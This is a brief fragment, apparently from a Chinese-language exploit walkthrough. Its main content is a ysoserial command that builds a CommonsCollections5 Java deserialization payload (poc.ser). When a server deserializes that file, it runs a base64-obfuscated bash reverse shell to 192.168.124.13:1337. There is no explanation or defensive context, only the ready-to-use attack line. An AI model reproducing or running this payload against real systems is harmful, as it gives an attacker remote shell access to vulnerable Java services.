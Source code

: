 生成payload文件，命令如下，命令执行反弹shell：
java8 -jar ysoserial-0.0.8-SNAPSHOT-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyNC4xMy8xMzM3IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser
